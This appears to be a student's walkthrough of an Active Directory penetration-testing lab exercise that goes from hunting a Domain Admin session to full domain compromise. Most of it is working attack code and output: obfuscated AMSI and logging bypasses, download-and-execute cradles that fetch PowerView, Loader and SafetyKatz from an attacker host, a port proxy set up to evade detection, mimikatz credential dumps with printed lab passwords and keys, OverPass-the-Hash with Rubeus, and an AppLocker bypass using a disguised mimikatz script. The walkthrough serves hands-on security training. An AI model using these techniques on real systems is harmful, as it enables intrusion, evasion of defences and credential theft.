# Learning Objective 07

## Tasks

1. **Identify a machine in the target domain where a Domain Admin session is available**
2. **Compromise the machine and escalate privileges to Domain Admin by abusing reverse shell on `dcorp-ci`**
3. **Escalate privilege to DA by abusing derivative local admin through `dcorp-adminsrv`**. On `dcorp-adminsrv`, tackle application allow listing using:
	- Gaps in Applocker rules
	- Disable Applocker by modifying GPO applicable to `dcorp-adminsrv`

---

## Solution

1. **Identify a machine in the target domain where a Domain Admin session is available**

We have access to two domain users (`student422` and `ciadmin`) and administrative access to `dcorp-adminsrv` machine (see *Learning Objective 05*). User hunting has not been fruitful as `student422`.

**Enumeration using Invoke-SessionHunter**

We can use `Invoke-SessionHunter.ps1` from the student VM to list sessions on all the remote machines. The script connects to Remote Registry service on remote machines that runs by default. Also, admin access is not required on the remote machines.

Use the following commands.


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\Invoke-SessionHunter.ps1`

`Invoke-SessionHunter -NoPortScan -RawResults | select Hostname,UserSession,Access`:
```
[+] Elapsed time: 0:0:6.559

HostName       UserSession                Access
--------       -----------                ------
dcorp-appsrv   dcorp\appadmin              False
dcorp-mgmt     dcorp\mgmtadmin             False
dcorp-mssql    dcorp\sqladmin              False
dcorp-sql1     dcorp\sql1admin             False
dcorp-std416   dcorp\student416            False
dcorp-std417   dcorp\student417            False
dcorp-std418   dcorp\student418            False
dcorp-std419   dcorp\student419            False
dcorp-std420   dcorp\student420            False
dcorp-std421   dcorp\student421            False
dcorp-std423   dcorp\student423            False
dcorp-std424   dcorp\student424            False
dcorp-std425   dcorp\student425            False
dcorp-std426   dcorp\student426            False
dcorp-std427   dcorp\student427            False
dcorp-std428   dcorp\student428            False
dcorp-std429   dcorp\student429            False
dcorp-std430   dcorp\student430            False
dcorp-std431   dcorp\student431            False
dcorp-std432   dcorp\student432            False
dcorp-std433   dcorp\student433            False
dcorp-std434   dcorp\student434            False
dcorp-stdadmin dcorp\studentadmin          False
dcorp-dc       dcorp\Administrator         False
dcorp-dc       dcorp\svcadmin              False
dcorp-mgmt     dcorp\svcadmin              False📌
dcorp-std426   DCORP-STD422\Administrator  False
dcorp-stdadmin DCORP-STD422\Administrator  False
dcorp-adminsrv dcorp\appadmin               True
dcorp-adminsrv dcorp\srvadmin               True
dcorp-adminsrv dcorp\websvc                 True
```

<🔄 Alternative Step🔄>

To make the above enumeration **more OpSec friendly and avoid triggering tools like MDI**, we can query specific target machines. You need to create `servers.txt` to use the below command.

`notepad C:\AD\Tools\servers.txt`:
```
DCORP-ADMINSRV
DCORP-APPSRV
DCORP-CI
DCORP-MGMT
DCORP-MSSQL
```

`Invoke-SessionHunter -NoPortScan -RawResults -Targets C:\AD\Tools\servers.txt | select Hostname,UserSession,Access`:
```
[+] Elapsed time: 0:0:1.885

HostName       UserSession     Access
--------       -----------     ------
DCORP-APPSRV   dcorp\appadmin   False
DCORP-MGMT     dcorp\mgmtadmin  False
DCORP-MSSQL    dcorp\sqladmin   False
DCORP-MGMT     dcorp\svcadmin   False📌
DCORP-ADMINSRV dcorp\appadmin    True
DCORP-ADMINSRV dcorp\srvadmin    True
DCORP-ADMINSRV dcorp\websvc      True
```

</🔄 Alternative Step🔄>

Sweet! There is a domain admin (`svcadmin`) session on `dcorp-mgmt` server! We do not have access to the server but that comes later.
🚩

2. **Compromise the machine and escalate privileges to Domain Admin by abusing reverse shell on `dcorp-ci`**

**Enumeration using PowerView**

We got a reverse shell on `dcorp-ci` as `ciadmin` by abusing Jenkins (see *Learning Objective 05*).

We can use Powerview's `Find-DomainUserLocation` on the reverse shell to looks for machines where a domain admin is logged in.

First, we must **bypass AMSI and enhanced logging**.

First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged. We could also use these bypasses in the initial `download-execute` cradle that we used in Jenkins.

The below command bypasses Enhanced Script Block Logging. Unfortunately, we have no in-memory bypass for PowerShell transcripts.

Note that we could also paste the contents of `sbloggingbypass.txt` in place of the `download-exec` cradle. Remember to host the `sbloggingbypass.txt` on a web server on the student VM if you use the `download-exec` cradle.

`type C:\AD\Tools\sbloggingbypass.txt`:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```




`iex (iwr http://172.16.100.22/sbloggingbypass.txt -UseBasicParsing)`

Use the below command to bypass AMSI.

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Now, download and execute PowerView in memory of the reverse shell and run `Find-DomainUserLocation`.



`iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.22/PowerView.ps1'))`

Note: `Find-DomainUserLocation` may take many minutes to check all the machines in the domain.

`Find-DomainUserLocation`:
```
UserDomain      : DCORP-CI
UserName        : Administrator
ComputerName    : dcorp-ci.dollarcorp.moneycorp.local
IPAddress       : 172.16.3.11
SessionFrom     :
SessionFromName :
LocalAdmin      :

UserDomain      : dcorp
UserName        : svcadmin👤
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local📌
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

Great! There is a domain admin session on `dcorp-mgmt` server!

Now, we can abuse this using winrs or PowerShell Remoting!

**Use winrs to access dcorp-mgmt**

Let’s check if we can execute commands on `dcorp-mgmt` server and if the winrm port is open.

`winrs -r:dcorp-mgmt cmd /c "set computername && set username"`:
```
COMPUTERNAME=DCORP-MGMT
USERNAME=ciadmin
```

We would now run SafetyKatz on `dcorp-mgmt` to extract credentials from it. For that, we need to copy `Loader.exe` on `dcorp-mgmt`.
Let's download `Loader.exe` on `dcorp-ci` and copy it from there to `dcorp-mgmt`. This is to avoid any downloading activity on `dcorp-mgmt`.



Run the following command on the reverse shell.

`iwr http://172.16.100.22/Loader.exe -OutFile C:\Users\Public\Loader.exe`

Now, copy the `Loader.exe` to `dcorp-mgmt`.

`echo Y | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe`:
```
Overwrite \\dcorp-mgmt\C$\Users\Public\Loader.exe (Yes/No/All)? Y
C:\Users\Public\Loader.exe
1 File(s) copied
```

Using winrs, add the following port forwarding on `dcorp-mgmt` to avoid detection on `dcorp-mgmt`.

`$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22"`

Please note that we must use the `$null` variable to address output redirection issues.

To run SafetyKatz on `dcorp-mgmt`, we will download and execute it in-memory using the Loader. Run the following command on the reverse shell.



`$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 58588 (00000000:0000e4dc)
Session           : Service from 0
User Name         : svcadmin👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 7:43:40 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011🔑
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8

[SNIP]
```

Sweet! We got credentials of `svcadmin`, a domain administrator. Note that `svcadmin` is used as a service account (see  `Session` in the above output), so you can even get credentials in clear-text from lsasecrets!

**Use OverPass-the-Hash to replay `svcadmin` credentials**

Finally, use OverPass-the-Hash to use `svcadmin`'s credentials.

Run the commands below **from an elevated shell** on the student VM to use Rubeus.
Note that we can use whatever tool we want (Invoke-Mimi, SafetyKatz, Rubeus etc.).


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : QSXFRIH1
[*] Domain          : FZUG6238
[*] Password        : G05M685W
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 712
[+] LUID            : 0x1581b95

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 22551445
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x1581b95
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/19/2025 4:08:05 PM
  EndTime                  :  2/20/2025 2:08:05 AM
  RenewTill                :  2/26/2025 4:08:05 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  CmkaAsHeqnhMoRtns5J0uDKQDoCRkORVDlP+4+m7XoI=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```

Try accessing the domain controller from the new spawned process!



`klist`:
```
Current LogonId is 0:0x1581b95

Cached Tickets: (1)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/19/2025 16:08:05 (local)
        End Time:   2/20/2025 2:08:05 (local)
        Renew Time: 2/26/2025 16:08:05 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd /c set username`:
```
USERNAME=svcadmin
```
🚩

Note that we did not need to have direct access to `dcorp-mgmt` from the student VM.

3. **Escalate privilege to DA by abusing derivative local admin through `dcorp-adminsrv`**. On `dcorp-adminsrv`, tackle application allow listing using:
	- Gaps in Applocker rules
	- Disable Applocker by modifying GPO applicable to `dcorp-adminsrv`

**Abuse Derivative Local Admin**

Now moving on to the next task, we need to escalate to domain admin using derivative local admin. Let’s find out the machines on which we have local admin privileges. On a PowerShell session started using Invisi-Shell, enter the following command.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`

`Find-PSRemotingLocalAdminAccess`:
```
dcorp-adminsrv📌
```

We have local admin on the `dcorp-adminsrv`.

You will notice that any attempt to run `Loader.exe` (to run SafetKatz from memory) results in error "This program is blocked by group policy. For more information, contact your system administrator".
Any attempts to run Invoke-Mimi on `dcorp-adminsrv` results in errors about language mode.

This could be because of an application allowlist on `dcorp-adminsrv` and we drop into a Constrained Language Mode (CLM) when using PSRemoting.

**Gaps in Applocker Policy**

Let's check if Applocker is configured on `dcorp-adminsrv` by querying registry keys.

Note that we are assuming that `reg.exe` is allowed to execute.


`winrs -r:dcorp-adminsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\student422>
```
🚀


`reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2`:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Appx
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Dll
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Exe
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Msi
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script
```

Looks like **Applocker is configured**.
After going through the policies, we can understand that **Microsoft Signed binaries and scripts are allowed for all the users but nothing else**. However, this particular rule is overly permissive!

`reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d`:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d
    Value    REG_SZ    <FilePathRule Id="06dce67b-934c-454f-a263-2515c8796a5d" Name="(Default Rule) All scripts located in the Program Files folder" Description="Allows members of the Everyone group to run scripts that are located in the Program Files folder."📑 UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*"/></Conditions></FilePathRule>
```

A default rule is enabled that allows everyone to run scripts from the `C:\ProgramFiles` folder!

We can also confirm this using PowerShell commands on `dcrop-adminsrv`. Run the below commands from a PowerShell session as `student422`.

`exit`


`Enter-PSSession dcorp-adminsrv`:
```
[dcorp-adminsrv]: PS C:\Users\student422\Documents>
```
🚀


`$ExecutionContext.SessionState.LanguageMode`:
```
ConstrainedLanguage
```

`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`:
```
[SNIP]

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.📑
UserOrGroupSid      : S-1-1-0
Action              : Allow

[SNIP]
```

Here, `Everyone` can run scripts from the `ProgramFiles` directory. That means, we can drop scripts in the `ProgramFiles` directory there and execute them.

Also, in the Constrained Language Mode, we cannot run scripts using dot sourcing (`. .\Invoke-Mimi.ps1`). So, we must modify `Invoke-Mimi.ps1` to include the function call in the script itself and transfer the modified script (`Invoke-MimiEx-keys-std422.ps1`) to the target server.

`exit`

**Create `Invoke-MimiEx-keys-std422.ps1`**

- Create a copy of `Invoke-Mimi.ps1` and rename it to `Invoke-MimiEx-keys-std422.ps1`.
- Open `Invoke-MimiEx-keys-std422.ps1` in PowerShell ISE (right click on it and click `Edit`).
- Add the below encoded value for `sekurlsa::ekeys` to the end of the file.

```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + $1;

Invoke-Mimi -Command $Pwn
```



On student machine run the following command from a PowerShell session. Note that it will take several minutes for the copy process to complete.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Copy-Item C:\AD\Tools\Invoke-MimiEx-keys-std422.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'`

The file `Invoke-MimiEx-keys-std422.ps1` is copied to the `dcorp-adminsrv` server.

`dir \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'`:
```
    Directory: \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   8:27 AM                Common Files
d-----          5/8/2021   8:15 AM                Internet Explorer
d-----          5/8/2021   8:15 AM                ModifiableWindowsApps
d-----        11/11/2022   9:57 AM                Windows Defender
d-----        10/25/2024  10:36 AM                Windows Defender Advanced Threat Protection
d-----          5/8/2021   9:34 AM                Windows NT
d-----          5/8/2021   8:27 AM                WindowsPowerShell
-a----         2/19/2025   1:53 PM        3063587 Invoke-MimiEx-keys-std422.ps1📌
```

`Enter-PSSession dcorp-adminsrv`:
```
[dcorp-adminsrv]: PS C:\Users\student422\Documents>
```
🚀


Now, run the modified mimikatz script. Note that there is no dot sourcing here. It may take a couple of minutes for the script execution to complete.

`C:\'Program Files'\Invoke-MimiEx-keys-std422.ps1`:
```
[SNIP]

mimikatz(powershell) # sekurlsa::ekeys📌

[SNIP]

Authentication Id : 0 ; 136295 (00000000:00021467)
Session           : Service from 0
User Name         : appadmin👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 7:43:13 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1117

         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : *ActuallyTheWebServer1
         * Key List :
           aes256_hmac       68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb🔑
           aes128_hmac       449e9900eb0d6ccee8dd9ef66965797e
           rc4_hmac_nt       d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7
           rc4_md4           d549831a955fee51a43c83efb3928fa7
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7

[SNIP]

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-ADMINSRV$👤
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/16/2025 7:42:59 AM
SID               : S-1-5-20

         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : (null)
         * Key List :
           aes256_hmac       e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51🔑
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565

[SNIP]

Authentication Id : 0 ; 136296 (00000000:00021468)
Session           : Service from 0
User Name         : websvc👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 7:43:13 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7🔑
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f
           rc4_md4           cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f

[SNIP]
```

Here we find the credentials of the `dcorp-adminsrv$`, `appadmin` and `websvc` users.

`exit`

**Create `Invoke-MimiEx-vault-stdx.ps1`**

As we discussed in the class, there are other places to look for credentials. Let's modify `Invoke-Mimi.ps1` and look for credentials from the Windows Credential Vault.
On the student VM:
- Create a copy of `Invoke-Mimi.ps1` and rename it to `Invoke-MimiEx-vault-std422.ps1`.
- Open `Invoke-MimiEx-vault-std422.ps1` in PowerShell ISE (right click on it and click `Edit`).
